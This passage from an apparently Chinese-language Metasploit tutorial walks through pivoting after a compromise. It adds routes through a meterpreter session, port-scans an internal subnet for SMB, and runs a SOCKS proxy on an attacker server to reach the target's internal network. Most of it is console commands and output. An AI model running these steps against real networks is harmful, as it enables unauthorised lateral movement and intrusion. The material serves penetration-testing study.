 ```console
[+] Added route to 10.10.20.7/255.255.255.0 via 192.168.36.162
[*] Use the -p option to list all active routes

meterpreter > run post/multi/manage/autoroute CMD=add SUBNET=10.10.30.7 NETMASK=255.255.255.0
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WEBLOGIC
[*] Adding a route to 10.10.30.7/255.255.255.0...
[+] Route added to subnet 10.10.30.7/255.255.255.0.
```

添加了新路由后，我们可以通过 Pivot 运行更多模块。

```console
msf exploit(ms08_067_netapi) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.218.0/24
RHOSTS => 192.168.218.0/24
msf auxiliary(tcp) > set THREADS 50
THREADS => 50
msf auxiliary(tcp) > set PORTS 445
PORTS => 445
msf auxiliary(tcp) > run

[*] Scanned 027 of 256 hosts (010% complete)
[*] Scanned 052 of 256 hosts (020% complete)
[*] Scanned 079 of 256 hosts (030% complete)
[*] Scanned 103 of 256 hosts (040% complete)
[*] Scanned 128 of 256 hosts (050% complete)
[*] 192.168.218.136:445 - TCP OPEN
[*] Scanned 154 of 256 hosts (060% complete)
[*] Scanned 180 of 256 hosts (070% complete)
[*] Scanned 210 of 256 hosts (082% complete)
[*] Scanned 232 of 256 hosts (090% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(tcp) >
```

### SOCKS 代理

在添加了 MSF 到目标机内网的路由后，可以将攻击机作为 SOCKS 代理服务器访问目标内网。

```console
msf6 auxiliary(scanner/portscan/tcp) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST MSF_VPS_IP
SRVHOST => MSF_VPS_IP
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
SRVPORT => 1080
msf6 auxiliary(server/socks_proxy) > set username admin
username => admin
msf6 auxiliary(server/socks_proxy) > set password admin123
password => admin123
msf6 auxiliary(server/socks_proxy) > exploit -j
[*] Auxiliary module running as background job 1.
msf6 auxiliary(server/socks_proxy) >
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  1   Auxiliary: server/socks_proxy

```